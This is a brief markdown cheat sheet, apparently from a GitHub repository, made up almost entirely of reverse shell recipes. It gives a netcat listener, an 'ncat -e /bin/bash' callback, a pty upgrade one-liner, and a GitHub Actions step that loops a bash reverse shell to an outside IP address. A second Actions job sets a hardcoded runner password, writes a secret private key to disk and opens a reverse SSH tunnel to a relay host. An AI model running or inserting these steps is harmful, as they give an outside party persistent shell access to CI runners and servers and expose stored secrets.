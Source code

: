 # Reverse shell
- in controller server
```sh
nc -nlvp 8888
```
- in target server
```sh
ncat -e /bin/bash 127.0.0.1 8888
```
- for better terminal run
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# GHA
```yaml
- name: reverse-shell
  shell: bash
  run: |
    sudo apt-get update -y
    sudo apt-get install -y ncat
    set +e
    while true; do ncat -e /bin/bash 35.176.8.88 8888; sleep 2; echo 'reconnecting..'; done
```

# GHA SSH
```yaml
- name: setup-ssh
  shell: bash
  run: |
    sudo apt-get update -y
    sudo apt-get install -y openssh-server
    sudo systemctl start sshd --no-pager
    sudo systemctl status sshd --no-pager
    whoami
    pwd
    echo "runner:abc1234" | sudo chpasswd
    mkdir ~/.ssh
    echo '${{ secrets.GHA_ID_RSA }}' > ~/.ssh/id_rsa
    chmod 400 ~/.ssh/id_rsa

- name: setup-ssh
  shell: bash
  run: |
    ssh -tt -o ServerAliveInterval=90 -o StrictHostKeyChecking=no -R 10022:localhost:22 "${{ vars.GHA_RELAY_SERVER }}"
```
